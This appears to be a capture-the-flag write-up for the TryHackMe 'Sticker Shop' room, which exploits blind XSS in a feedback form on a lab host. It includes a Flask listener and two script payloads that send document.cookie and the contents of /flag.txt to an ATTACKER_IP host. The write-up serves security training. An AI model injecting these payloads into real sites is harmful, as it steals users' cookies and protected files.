```yaml
---
layout: default
title: The Sticker Shop THM - Write up
theme: minima
---
```


# The Sticker Shop THM - Write up (Easy)

## Description
Can you read the flag at http://10.10.102.26:8080/flag.txt?

## Accessing http://10.10.102.26:8080
There is home page and one feedback page.
![image](https://github.com/user-attachments/assets/b9cfa04d-081c-4b59-8fef-717107a3bba8)

most likely we have to put our payload on the feedback page.

## Trying to access http://10.10.102.26:8080/flag.txt
![flag.txt](https://github.com/user-attachments/assets/9d160fb6-df50-41bd-8cc2-adebbaf590d0)

it returns "401 Unauthorized".

## Trying XSS
Common Reflected XSS playloads didnt work for me in the feedback page. so I accessed the hint which says "Can you conduct any client-side exploitation in order to read the flag?". 
I became certain that there is XSS in the page. I tried for blind XSS.

### Creating a server
I Created a simple server using flask.
![image](https://github.com/user-attachments/assets/b51c2017-5a94-424b-be59-5e132a634a54)

Code: 
```
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def capture_flag():
    data = request.data.decode('utf-8')
    print(f"Received data: {data}")
    return 'Data received!', 200

if __name__ == '__main__':
    app.run(host='ATTACKER_IP', port=8000)
```
### Running the server
![image](https://github.com/user-attachments/assets/84e46136-cae4-4683-91e4-4078c506cb07)

### Putting the payload
![image](https://github.com/user-attachments/assets/c841d029-aa28-4c46-84fc-7a22251ead9a)

payload:
```
<script>document.location='http://ATTACKER_IP:8000/xss?cookie=' + document.cookie</script>
```
Enter the payload and click submit.

### Output
![image](https://github.com/user-attachments/assets/f1780783-0d26-4fbb-8d0e-ae540c56086f)
The paylaod works, the website doesnt use cookies so theres no cookie showing.

## Getting the flag

### Putting the payload
![image](https://github.com/user-attachments/assets/051da70d-5c1a-4434-bc7e-46843c5c6e6c)

payload for the flag:
```
<script>
    fetch('/flag.txt')
        .then(res => res.text())
        .then(flag => fetch('http://ATTACKER_IP:8000', {method: 'POST', body: flag}));
</script>
```
click submit.

### output
![image](https://github.com/user-attachments/assets/43386fd9-82d9-4abf-8e81-105357d232e9)

got the flag.









